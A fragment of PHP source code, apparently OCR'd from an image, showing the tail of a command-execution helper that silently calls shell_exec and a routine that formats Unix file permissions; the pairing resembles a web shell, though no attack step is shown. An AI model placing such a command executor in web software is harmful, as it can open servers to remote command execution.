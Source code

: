         } elseif(function_exists('shell_exec')) {
            $buff = @shell_exec($cmd);
            return $buff;
        }
    }
   
    function perms($file){
        $perms = fileperms($file);
   
        if (($perms & 0xC000) == 0xC000) {
            // Socket
            $info = 's';
        } elseif (($perms & 0xA000) == 0xA000) {
            // Symbolic Link
            $info = 'l';
        } elseif (($perms & 0x8000) == 0x8000) {
            // Regular
            $info = '-';
        } elseif (($perms & 0x6000) == 0x6000) {
            // Block special
            $info = 'b';
        } elseif (($perms & 0x4000) == 0x4000) {
            // Directory
            $info = 'd';
        } elseif (($perms & 0x2000) == 0x2000) {
            // Character special
            $info = 'c';
        } elseif (($perms & 0x1000) == 0x1000) {
            // FIFO pipe
            $info = 'p';
        } else {
            // Unknown
            $info = 'u';
        }
   
        // Owner
        $info .= (($perms & 0x0100) ? 'r' : '-');
        $info .= (($perms & 0x0080) ? 'w' : '-');
        $info .= (($perms & 0x0040) ?
        (($perms & 0x0800) ? 's' : 'x' ) :
        (($perms & 0x0800) ? 'S' : '-'));
        // Group
        $info .= (($perms & 0x0020) ? 'r' : '-');
        $info .= (($perms & 0x0010) ? 'w' : '-');
        $info .= (($perms & 0x0008) ?
        (($perms & 0x0400) ? 's' : 'x' ) :
        (($perms & 0x0400) ? 'S' : '-'));
       
        // World
        $info .= (($perms & 0x0004) ? 'r' : '-');
        $info .= (($perms & 0x0002) ? 'w' : '-');
        $info .= (($perms & 0x0001) ?
        (($perms & 0x0200) ? 't' : 'x' ) :
        (($perms & 0x0200) ? 'T' : '-'));
 